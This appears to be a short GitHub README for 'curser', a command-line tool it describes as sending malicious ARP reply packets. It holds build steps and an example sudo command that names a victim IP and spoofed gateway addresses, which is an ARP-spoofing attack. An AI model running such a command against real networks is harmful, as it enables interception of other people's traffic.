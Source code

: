 # curs>r
A small tool to send malicious arp reply packet

### Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

### Building
```bash
cd build
./builder.sh
```

### Usage
```bash
➜ ./curser -h
Usage: curser [OPTIONS]
OPTIONS:
	-ifn   interface name
	-vpa   victim ip
	-sha   sender mac address
	-gpa   gateway ip
	-gha   gateway mac address
  
➜ sudo ./curser -ifn en0 -vpa 192.168.0.22 -sha 00:AA:BB:CC:DD:EE -gpa 192.168.1.1 -gha 00:01:02:03:04:05
```
